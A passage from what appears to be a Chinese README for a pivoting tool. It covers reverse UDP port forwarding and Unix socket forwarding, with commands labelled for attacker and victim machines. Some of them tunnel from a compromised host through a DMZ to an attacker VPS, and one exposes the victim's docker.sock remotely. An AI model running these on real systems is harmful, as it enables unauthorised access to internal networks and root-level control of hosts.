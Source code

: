 注意在**反向** UDP 端口转发时, 会通过发送 handshake 握手包的形式来记住客户端地址.

示例:

```bash
# 攻击者机器
./pivot fwd -l 8888 -l 9999 -p udp

# 受害者机器
./pivot fwd -r 10.0.0.1:53 -r vps:8888 -p udp
```

受害者机器会向 `vps:8888` (即攻击者机器) 发送一个 4 字节的握手包 (内容全为 0).

攻击者机器会通过这个数据包记住客户端地址, 这样当用户连接到 `vps:9999` 时, 就会将流量转发到这个地址.

**因为握手包的存在, 所有参数必须按顺序传递, 不能交换位置.**

另一个示例:

```bash
# A 机器 (10.0.0.1, 192.168.1.1, intranet)
./pivot fwd -r 10.0.0.10:53 -l 7777 -p udp

# B 机器 (192.168.1.2, DMZ)
./pivot fwd -r 192.168.1.1:7777 -r vps:8888 -p udp # 这句命令需要在最后执行

# 攻击者机器
./pivot fwd -l 8888 -l 9999 -p udp
```

握手包将从 B 机器发送到攻击者机器 (8888 端口). 用户可以通过端口 9999 连接到内网.

### Unix domain socket 转发

*该特性仅支持 Linux 和 macOS*

Unix domain socket 是一种 IPC (Inter-Process Communication, 进程间通信) 手段, 允许运行在同一台机器上的不同进程之间进行数据交换.

常见的 Unix domain socket 有 `/var/run/docker.sock` 和 `/var/run/php-fpm.sock`.

你可以将 Unix domain socket 转发到一个 TCP 端口.

```bash
./pivot fwd -s /var/run/docker.sock -l 4444

# 获取 Docker 版本
curl http://127.0.0.1:4444/version
```

或者进行反向端口转发.

```bash
# 受害者机器
./pivot fwd -s /var/run/docker.sock -r vps:4444

# 攻击者机器
./pivot fwd -l 4444 -l 5555

# 获取 Docker 版本
curl http://vps:5555/version
```
